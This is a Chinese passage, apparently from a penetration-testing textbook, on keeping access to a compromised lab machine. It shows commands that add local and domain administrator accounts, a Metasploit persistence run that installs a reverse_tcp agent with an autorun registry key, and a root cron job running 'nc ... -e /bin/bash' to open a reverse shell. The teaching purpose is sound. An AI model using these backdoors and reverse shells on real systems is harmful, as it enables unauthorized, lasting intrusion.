我们的 Meterpreter 会话的一个优点同时也是一个缺点。因为主机进程完全驻留在内存中，如果它崩溃，我们的 Meterpreter 会话也会随之崩溃，并且如果系统重启，我们将丢失会话。如果我们失去对目标的网络访问，我们的会话可能也会终止。

与其重新利用相同的漏洞或重新发送社会工程学攻击，理想情况下，我们应该有一种方法来在将来恢复访问。持久性方法可以简单到向系统添加一个用户，也可以复杂到内核级 rootkit，甚至隐藏自己，连 Windows API 都无法检测到，几乎无法被察觉。在本节中，我们将介绍一些在目标系统上获得持久性的方法，帮助你为渗透测试打下良好的基础。

### 添加用户

也许获得持久化的最简单方法是添加一个新用户。能够通过 SSH、RDP 等方式直接登录系统，使得未来可以轻松访问该系统。（与对目标进行的所有其他更改一样，记得在完成渗透测试前删除所有新增的用户账户。）

在 Windows 系统上，使用 `net user` *`username`* *`password`* `/add` 来添加一个新用户，如此处所示。

```
C:\Documents and Settings\georgia\Desktop> **net user james password /add**
net user james password /add
The command completed successfully.
```

我们还应该使用命令 `net localgroup` *`group username`* `/add` 将新用户添加到相关的组中。例如，如果我们想通过远程桌面登录，应该将用户添加到远程桌面用户组。管理员组也是一个很好的选择，如此处所示。

```
C:\Documents and Settings\georgia\Desktop> **net localgroup Administrators james /add**
net localgroup Administrators james /add
The command completed successfully.
```

如果你的客户有 Windows 域，可以通过在命令末尾加上 `/domain` 来将用户添加到域中，并将其添加到域组中（前提是你有足够的权限）。例如，如果你能够窃取一个域管理员的令牌，可以使用以下命令添加一个域管理员账户，从而获得整个域的完全控制。

```
C:\Documents and Settings\georgia\Desktop> **net user georgia2 password /add /domain**
C:\Documents and Settings\georgia\Desktop> **net group "Domain Admins" georgia2 /add /domain**
```

在 Linux 目标系统上，我们可以使用 `adduser` 来添加一个用户账户。理想情况下，我们还应该将新用户添加到 sudoers 组中，以便获得 root 权限。

### Metasploit 持久化

Meterpreter 脚本 *persistence* 会自动创建一个 Windows 后门，使其根据我们创建时使用的选项，在启动、登录等时自动连接回 Metasploit 监听器。*persistence* 脚本的选项如 示例 13-33 所示。

示例 13-33. Meterpreter 持久化脚本

```
meterpreter > **run persistence -h**
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching multi/handler to connect to the agent
    -L <opt>  Location in target host where to write payload to, if none %TEMP% will be used.
    -P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T <opt>  Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i <opt>  The interval in seconds between each connection attempt
    -p <opt>  The port on the remote host where Metasploit is listening
    -r <opt>  The IP of the system running Metasploit listening for the connect back
```

如你所见，我们有很多自定义选项可以配置我们的持久化有效载荷。我们可以设置持久化代理在启动时或用户登录时启动。我们可以设置尝试连接处理程序的间隔时间。我们还可以更改代理在目标系统上的写入位置。我们还可以指定远程主机和端口，让代理连接回去。我们甚至可以让 Metasploit 自动设置一个处理程序来接收传入连接。在设置持久化的过程中，Metasploit 必须将持久化代理写入磁盘，因此 Meterpreter 此时不再完全驻留在内存中。当持久化代理在启动时运行（-`X`）时，一个 Visual Basic 脚本会被上传到 *%TEMP%* 文件夹，并且在注册表中添加一个程序启动项。当持久化代理在登录时运行（`-U`）时，过程类似，但注册表项被设置为在登录时运行。当持久化代理以服务方式运行（`-S`）时，会创建一个 Windows 系统服务，从 *%TEMP%* 调用 Visual Basic 脚本。

让我们运行 *persistence* 脚本，如示例 13-34 所示，指示代理在用户登录时连接回我们的 Kali 机器。

示例 13-34. 运行持久化脚本

```
meterpreter > **run persistence -r 192.168.20.9 -p 2345 -U**
[*] Running Persistence Script
[*] Resource file for cleanup created at /root/.msf4/logs/persistence/BOOKXP_20150814.1154/BOOKXP_20150814.1154.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345
[*] Persistent agent script is 614853 bytes long
[+] Persistent Script written to C:\WINDOWS\TEMP\eTuUwezJblFHz.vbs
[*] Executing script C:\WINDOWS\TEMP\eTuUwezJblFHz.vbs
[+] Agent executed with PID 840
[*] Installing into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\BJkGfQLhXD
[+] Installed into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\BJkGfQLhXD
```

运行脚本后，使用 Meterpreter 命令`background`将 Meterpreter 会话放到后台，并设置一个处理程序以捕捉持久化代理。现在重启 Windows XP 目标机。重启后，以*georgia*身份登录，你应该会收到另一个 Meterpreter 会话。

### 注意

如果第一次没有成功，尝试重新启动并再次登录。

### 创建 Linux cron 作业

在 Windows 和 Linux 系统上，我们可以在特定时间自动启动任务。例如，我们可以设置一个 `cron` 作业，自动运行 Metasploit 负载，甚至只使用 Netcat 连接回我们。

打开你的 Linux 目标机上的 */etc/crontab* 文件。以下这一行将每小时、每天、每月的每十分钟运行一次命令 `nc 192.168.20.9 12345 -e /bin/bash`，也就是说，每十分钟执行一次。该命令将以 root 权限运行。将这一行添加到 */etc/crontab* 文件的末尾。（有关帮助，请参见使用 cron 作业自动化任务。）

```
*/10 * * * * root nc 192.168.20.9 12345 -e /bin/bash
```

现在通过输入**`service cron restart`**重启 `cron` 服务。在 Kali 机器上设置 Netcat 监听器，监听端口 12345，并在接下来的十分钟标记时，`cron` 作业应当运行，你应当在 Netcat 监听器上接收到一个 root shell。

## 总结

在本章中，我们仅介绍了一些后期利用技巧，几乎只是略微触及了可用的各种有趣工具和技术的表面。我们研究了一些提升权限的方法，针对已被利用的系统进行特权提升。我们还探讨了收集本地信息的方法。我们学习了如何将对一个系统的访问转化为对多个系统的访问，包括通过一个开放会话从一个网络转向另一个网络。最后，我们还介绍了几种使访问变得持久的方法。
